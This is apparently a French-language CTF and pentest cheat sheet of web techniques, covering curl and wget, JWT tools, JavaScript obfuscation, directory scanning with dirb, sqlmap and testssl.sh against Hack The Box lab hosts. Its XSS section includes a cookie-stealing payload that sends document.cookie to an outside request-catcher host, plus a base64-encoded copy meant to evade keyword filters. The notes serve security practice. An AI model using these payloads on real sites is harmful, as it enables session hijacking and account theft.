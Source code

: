 # Web

- [Curl](#curl)
- [JWT (Json Web Token)](#jwt-json-web-token)
- [API](#api)
- [Obfuscation Javascript](#obfuscation-javascript)
- [XSS (Cross Site Scripting)](#xss-cross-site-scripting)
- [Scan d'URL web](#scan-durl-web)
- [Injection SQL](#injection-sql)
- [TLS](#tls)

## Curl / Wget

```bash
# ajouter un header à la requête
curl http://10.10.10.215 -H host:academy.htb
```

Pour obtenir la version hors-ligne d'un site :
```bash
# version longue
wget -r -l1 --page-requisite --convert-links --adjust-extension --timestamping <--span-hosts> url
# version courte
wget -r -l1 -p -k -E -N <-H> url
```

## JWT (Json Web Token)

Pour manipuler un JWT en ligne : https://jwt.io/

Pour manipuler un JWT en python : https://pyjwt.readthedocs.io/en/latest/

## API

Pour requêter une API : https://reqbin.com

## Obfuscation Javascript

Outil pour obfusquer du Javascript : http://dean.edwards.name/packer

Outil pour dé-obfusquer du Javascript : https://lelinhtinh.github.io/de4js

## XSS (Cross Site Scripting)

```html
// Pour tester
<p id="p1">Testarossa</p>
<script>
document.getElementById("p1").innerHTML = "Life found a way !";
</script>
```

Webhook : https://busterbaxter.requestcatcher.com
```html
// Pour exploiter
<script>
var script = document.createElement("script");
script.src = "https://busterbaxter.requestcatcher.com/" + document.cookie;
document.body.appendChild(script);
</script>:-)

// Pour bypass les filtres qui recherchent des mots clés : base64 encoded payload
<body onload="eval(atob('dmFyIHNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoInNjcmlwdCIpO3NjcmlwdC5zcmMgPSAiaHR0cHM6Ly9idXN0ZXJiYXh0ZXIucmVxdWVzdGNhdGNoZXIuY29tLyIgKyBkb2N1bWVudC5jb29raWU7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzY3JpcHQpOw=='))">
```

## Scan d'URL web

>Attention ! Ne pas utiliser en CTF réaliste
```bash
dirb http://10.10.10.215 -r -o academy.dirb.txt -H host:academy.htb
```

## Injection SQL

https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet

```bash
# à partir d'une url
sqlmap -u "http://academy.htb/admin.php?uid=0&password=0" #--level 5 --risk 3
# à partir d'une requête interceptée par burpsuite
sqlmap -r academy.burp.txt
```

## TLS

`testssl.sh` permet de tester :
- versions de SSL/TLS
- suites de chiffrement
- ordre de chiffrement
- certificat
- vulnérabilités connues

Pour lancer :
```bash
git clone --depth 1 https://github.com/drwetter/testssl.sh.git
cd testssl.sh
./testssl.sh --html 172.17.0.2:50051
```
